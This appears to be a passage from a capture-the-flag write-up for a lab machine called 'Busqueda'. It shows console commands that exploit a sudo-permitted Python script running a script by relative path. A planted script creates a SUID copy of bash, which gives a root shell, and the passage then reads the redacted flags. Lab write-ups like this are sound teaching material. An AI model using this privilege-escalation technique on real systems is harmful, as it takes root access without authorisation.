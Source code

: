 Exploit:

```console
svc@busqueda:~$ echo -e '#!/bin/bash\n/bin/cp /bin/bash /tmp/rootbash; /bin/chmod +s /tmp/rootbash' > full-checkup.sh; chmod +x full-checkup.sh
svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ ls -la /tmp/rootbash
-rwsr-sr-x 1 root root 1396520 Aug  5 08:14 /tmp/rootbash
svc@busqueda:~$ /tmp/rootbash -p
rootbash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) egid=0(root) groups=0(root),1000(svc)
```

Got root shell.

## Flag

user

```console
svc@busqueda:~$ cat /home/svc/user.txt
[REDACTED]
```

root

```console
rootbash-5.1# cat /root/root.txt
[REDACTED]
```
